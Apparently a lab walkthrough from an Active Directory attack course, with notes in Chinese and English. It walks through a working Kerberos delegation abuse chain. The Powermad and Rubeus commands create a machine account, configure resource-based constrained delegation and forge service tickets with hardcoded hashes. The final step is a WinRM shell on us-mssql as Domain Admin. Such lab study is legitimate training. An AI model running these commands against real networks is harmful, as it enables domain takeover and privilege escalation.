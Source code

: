 

使用ActiveDirectory module枚举约束委派
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne "$null"} -Properties msDS-AllowedToDelegateTo
```

使用Powermad.ps1脚本创建一个新的计算机用户
```
. C:\AD\Tools\Powermad\Powermad.ps1
New-MachineAccount -MachineAccount studentcompX
```

因为已经有了us-mgmt的完全控制权限
在us-mgmt上使用us-mgmt$得到账号配置RBCD
```
C:\AD\Tools\Rubeus.exe asktgt /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /impersonateuser:administrator /domain:us.techcorp.local /ptt /nowrap
```
然后
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

Import-Module C:\AD\Tools\ADModule-master\Microsoft.ActiveDirectory.Management.dll

Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1
```
然后
```
Set-ADComputer -Identity us-mgmt$ -PrincipalsAllowedToDelegateToAccount studentcompX$ -Verbose
```


Obtain a TGS/Service Ticket for us-mgmt (machine configured with Constrained Delegation) by leveraging the newly created Machine Account (studentcompx)（通过利用新创建的机器帐户 (studentcompx) 为 us-mgmt（配置了约束委派的机器）获取 TGS/服务票证）

```
C:\AD\Tools\Rubeus.exe hash /password:P@ssword@123

C:\AD\Tools\Rubeus.exe s4u /impersonateuser:administrator /user:studentcompX$ /rc4:D3E5739141450E529B07469904FE8BDC /msdsspn:cifs/us-mgmt.us.techcorp.local /nowrap
```

Request a new forwardable TGS/Service Ticket by leveraging the ticket created in previous step.（利用在上一步中创建的票证请求新的可转发 TGS/服务票证。）

```
C:\AD\Tools\Rubeus.exe s4u /tgs:doIGxjCCBsKgAwIBBaEDAgEWoo... /user:us-mgmt$ /aes256:cc3e643e73ce17a40a20d0fe914e2d090264ac6babbb86e99e74d74016ed51b2 /msdsspn:cifs/us-mssql.us.techcorp.local /altservice:http /nowrap /ptt
```

Access the us-mssql using WinRM as the Domain Admin.（使用 WinRM 作为域管理员访问 us-mssql。）
```
winrs -r:us-mssql.us.techcorp.local cmd.exe
```






